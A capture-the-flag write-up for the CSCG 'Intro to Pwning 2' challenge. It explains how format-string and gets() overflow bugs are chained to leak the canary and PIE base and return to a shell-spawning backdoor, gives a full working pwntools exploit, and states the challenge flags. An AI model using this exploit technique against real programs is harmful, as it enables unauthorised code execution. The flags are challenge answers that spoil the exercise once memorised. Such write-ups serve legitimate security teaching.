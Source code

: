 # Intro to Pwning 2

For this challenge we are provided with an ELF binary `pwn2` and its source code `pwn2.c`. The binary has all mitigations enabled: full RELRO, stack canaries, NX and PIE. Analyzing the source code, we spot two bugs:

- In `welcome()`: stack smashing via `gets`

- In `welcome()`: user-controlled format string via `printf`

- In `AAAAAAAA()`: stack smashing via `gets`

Also, there is a backdoor in `WINgardium_leviosa()`, spawning a shell. Using the format string bug, we leak the address of the binary and the stack-canary off the stack. Then we smash the stack in `AAAAAAAA()` to overwrite its return address and return to the backdoor to get a shell.

Flag: `CSCG{NOW_GET_VOLDEMORT}`

Exploit code:

```python
from pwn import *

# connect
b = ELF("pwn2")
context.binary = b
r = remote("hax1.allesctf.net", 9101)

# send password
r.sendlineafter("stage 1", "CSCG{NOW_PRACTICE_MORE}")
r.recvuntil("witch name:")

# leak binary address and canary
r.sendline("%39$p %41$p")
leak = r.recvuntil("magic spell:")
canary, leak = leak.splitlines()[-1].split()[:2]
canary = int(canary, 0)
leak = int(leak, 0)
b.address = leak - 0xDC5
info("binary @ 0x%x", b.address)
info("canary: 0x%x", canary)

# return to backdoor
r.sendline(
    "Expelliarmus".ljust(0x108, "\0")
    + flat(canary, 0, b.address + 0xCFE, b.symbols.WINgardium_leviosa)
)
r.interactive()
```
